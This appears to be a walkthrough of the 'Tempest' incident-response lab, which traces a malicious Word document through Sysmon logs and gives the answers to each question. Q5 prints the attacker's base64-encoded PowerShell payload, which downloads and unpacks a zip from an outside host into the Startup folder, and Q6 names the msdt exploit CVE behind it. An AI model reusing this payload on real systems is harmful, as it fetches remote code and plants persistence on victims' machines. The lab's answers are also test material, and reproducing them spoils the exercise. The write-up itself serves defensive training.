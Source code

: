 Tempest Incident

In this incident, you will act as an Incident Responder from an alert triaged by one of your Security Operations Center analysts. The analyst has confirmed that the alert has a **CRITICAL** severity that needs further investigation.

As reported by the <span style="color: #d4d0ca;">SOC</span> analyst, the intrusion started from a malicious document. In addition, the analyst compiled the essential information generated by the alert as listed below:

- The malicious document has a **.doc** extension.
- The user downloaded the malicious document via **chrome.exe**.
- The malicious document then executed a chain of commands to attain code execution.

Investigation Guide

To aid with the investigation, you may refer to the cheatsheet crafted by the team applicable to this scenario:

- Start with the events generated by <span style="color: #d4d0ca;">Sysmon</span>.
- EvtxEcmd, Timeline Explorer, and SysmonView can interpret <span style="color: #d4d0ca;">Sysmon</span> logs.
- Follow the child processes of WinWord.exe.
- Use filters such as ParentProcessID or ProcessID to correlate the relationship of each process.
- We can focus on Sysmon events such as Process Creation (Event ID 1) and <span style="color: #d4d0ca;">DNS</span> Queries (Event ID 22) to correlate the activity generated by the malicious document.

Significant Data Sources:

- <span style="color: #d4d0ca;">Sysmon</span>


Q1: The user of this machine was compromised by a malicious document. What is the file name of the document?

Open the Timeline Explorer and open the sysmon.csv that we parsed earlier in the room.

We have two clues from the alert generated so we can either use ".doc" or "chrome.exe" at the search bar on the top right.

![image](https://github.com/user-attachments/assets/17fc0972-bf5c-453e-a0a2-c9c45b54d531)

ANS: free_magicules.doc

Q2: What is the name of the compromised user and machine?
*Format: username-machine name*

We'll be able to see who downloaded or opened the malicious document on the same row.

![image](https://github.com/user-attachments/assets/f8b59666-3a96-4a54-a7fd-d36af10205e2)

ANS: benimaru-TEMPEST

Q3: What is the PID of the Microsoft Word process that opened the malicious document?

We'll use the name of the malicious in the search bar and we can look for Event ID 1 which is Process Creation.

![image](https://github.com/user-attachments/assets/bd34230f-af1a-471c-a8f1-ce9f7b5deb76)

ANS: 496

Q4: Based on Sysmon logs, what is the IPv4 address resolved by the malicious domain used in the previous question?

Let's take a note of where and when the malicious file opened and we'll start our investigation from there.

![image](https://github.com/user-attachments/assets/0aa2c51d-9aa6-4a0d-a39d-6bdd8e11f0ac)

We know that the malicious document was opened by PID 496 (winword.exe) and user "benimaru" so we will be filtering the events of that particular process and user.

![image](https://github.com/user-attachments/assets/af2145b5-e640-4300-a3eb-4579cbcbd8d8)

To answer the question, we'll take a closer look at Event IDs 3 and 22 which are "Network Connection" and "DNS Event" respectively.

![image](https://github.com/user-attachments/assets/3a2185e8-c362-4f4d-9b19-678d05c15053)

And once we examine the rows of those records, we'll have our answer.

ANS: 167.71.199.191

Q5: What is the base64 encoded string in the malicious payload executed by the document?

Now we have to find out the Child Processes that PID 496 (winword.exe) created when it opened the malicious document. We can do that by setting PID 496 as the Parent Process which in this case, located at "Payload Data5" column.
The payload will immediately stick out from the "Executable Info" column.

![image](https://github.com/user-attachments/assets/5a23f57a-4462-4e7a-84ca-5db8d1aa38a1)

ANS: JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==

Q6: What is the CVE number of the exploit used by the attacker to achieve a remote code execution?
*Format: XXXX-XXXXX*

Study the payload for a bit and after a bit of googling, we'll find this page: https://lolbas-project.github.io/lolbas/Binaries/Msdt/

![image](https://github.com/user-attachments/assets/0e313d89-df2a-4dff-8e41-c5c31ece67a3)

ANS: 2022-30190
